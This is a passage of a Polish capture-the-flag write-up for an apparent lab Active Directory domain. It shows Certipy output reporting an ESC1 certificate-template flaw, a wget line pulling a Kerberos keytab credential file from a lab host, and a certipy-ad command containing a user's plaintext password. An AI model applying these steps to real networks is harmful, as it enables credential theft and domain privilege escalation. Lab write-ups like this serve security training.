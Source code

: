 ```
      Object Control Permissions
        Owner                           : HYBRID.VL\Administrator
        Write Owner Principals          : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
        Write Dacl Principals           : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
        Write Property Principals       : HYBRID.VL\Domain Admins
                                          HYBRID.VL\Enterprise Admins
                                          HYBRID.VL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'HYBRID.VL\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

no to w ESC1 potrzeba hasha maszynowego więc zapewne musimy dorwać ten z MAIL01$.

pobieramy 2 rzeczy. Jedną z maszyny i drugą z internetów.
```
wget https://raw.githubusercontent.com/sosdave/KeyTabExtract/refs/heads/master/keytabextract.py
wget -q 10.10.161.182:9999/krb5.keytab
```
krb5.keytab location is `/etc/krb5.keytab`

![{8614DC16-2759-4409-B171-FE44AD7B7C57}](https://github.com/user-attachments/assets/7dad943c-0ad9-49be-8598-b00688dc00f9)

jedyen czego nam brakuje to nazwa templatki, której nie widzę tutaj. Jednakże są pewne sztuczki, żeby ją zdobyć.
```
certipy-ad find -u peter.turner@hybrid.vl -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.161.181 -old-bloodhound
```

![{42048413-34FB-48BC-ACCA-27AE125FC6DE}](https://github.com/user-attachments/assets/fd9becae-4285-4fe6-9411-483c7daaa53e)

![{95BD6017-CF0D-46C5-98E2-A1FED716D9F1}](https://github.com/user-attachments/assets/b6a8c154-3189-44e8-9093-23ce68fcce7f)

były znowu problemy z długością klucza, ale jeden switch i śmiga.

![{523C331F-6BA1-46F4-A4CF-024525E42B27}](https://github.com/user-attachments/assets/b0fdd2ff-db8d-457e-8dae-b01c56fc6ecc)

i no końcówka

![{EB031930-1BB2-45B6-838C-294AECB8D29E}](https://github.com/user-attachments/assets/958ae462-da55-47f8-b1b5-d6b147945641)

FINISH
